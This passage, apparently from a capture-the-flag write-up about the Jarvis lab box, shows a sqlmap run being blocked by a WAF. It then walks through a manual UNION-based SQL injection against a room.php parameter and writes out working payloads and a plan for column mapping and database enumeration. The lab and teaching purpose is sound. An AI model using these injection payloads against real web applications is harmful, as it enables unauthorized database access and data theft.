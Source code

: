     [*] starting @ 02:02:36 /2019-06-28/
    
    [02:02:36] [INFO] testing connection to the target URL
    [02:02:36] [INFO] checking if the target is protected by some kind of WAF/IPS
    [02:02:36] [WARNING] turning off pre-connect mechanism because of connection reset(s)
    [02:02:36] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
    do you want sqlmap to try to detect backend WAF/IPS? [y/N] y
    [02:02:40] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
    [02:02:40] [INFO] using WAF scripts to detect backend WAF/IPS protection
    [02:02:40] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
    [02:02:40] [INFO] heuristics detected web page charset 'ascii'
    [02:02:40] [WARNING] WAF/IPS product hasn't been identified
    [02:02:40] [INFO] testing if the target URL content is stable
    [02:02:41] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
    how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
    [02:02:45] [INFO] searching for dynamic content
    [02:02:45] [CRITICAL] page not found (404)
    [02:02:45] [WARNING] HTTP error codes detected during run:
    404 (Not Found) - 8 times
    
    [*] ending @ 02:02:45 /2019-06-28/
    

Not only that, but the site now returns the same message I saw earlier on port
64999 about being blocked for 90 seconds.

### Path 1: PHPMyAdmin

#### Manual SQLi

I can work through this Injection manually. I’ll start by checking for a UNION
injection. I’ll set `cod=100` (something that returns nothing), and then add
the union. I’ll start with `http://10.10.10.143/room.php?cod=100 UNION SELECT
1;-- -`. When that return nothing, I’ll change the `SELECT` to `SELECT 1,2`.
Then `1,2,3`. When I get to `http://10.10.10.143/room.php?cod=100 UNION SELECT
1,2,3,4,5,6,7;-- -`, parts of the page populate again:

![1561702665655](https://0xdfimages.gitlab.io/img/1561702665655.png)

I can compare that to a legit `cod=1`:

![1561702740456](https://0xdfimages.gitlab.io/img/1561702740456.png)

I can see that column 5 is the picture, 2 seems to be the room title, 3 must
be the price, and 4 must be the description text.

I’ll use column 2 to get information from the databases. When solving Jarvis I
had recently learned of `group_concat()`, which will put all the values from
different rows into one string, which is awesome for this. I’ll start by
listing the databases. hotel seems like the most interesting, but it only has
one table, and that doesn’t seem interesting based on the columns. I’ll next
take a look at the mysql table:
